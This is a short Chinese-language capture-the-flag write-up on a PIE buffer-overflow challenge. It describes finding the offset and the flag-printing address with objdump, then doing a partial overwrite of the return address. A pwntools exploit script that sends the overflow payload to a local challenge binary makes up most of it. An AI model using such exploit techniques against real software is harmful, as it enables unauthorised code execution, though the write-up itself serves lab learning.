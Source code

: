# 挑战简介
```
如果你能找到easy题的规律,稍微会看点IDA,这题没什么难的
```

# 思路
- 首先要知道偏移量
- 其次已知偏移量,在插入位置插入后三个半字节,而这个半字节偏移量可以用objdump -d /···| less来查看恰好跳过检测的,输出flag的位置,此题经查看,输出位置是1df1,所以后三个半字节应当是df1,插入格式是\xf1\x1d # 1是随机数
以上,题目自然迎刃而解
```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-pie-overflow')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x1df1)      # 无意义,当然这也是8byte的偏移量,相当于实际偏移量是144+8=152
#offset_last = 
payload = b'a' * 144 + win_authed_address + b'\xf1\x1d'     # 后1是随机数,继续强调
p.send(payload)
p.recvall()
```
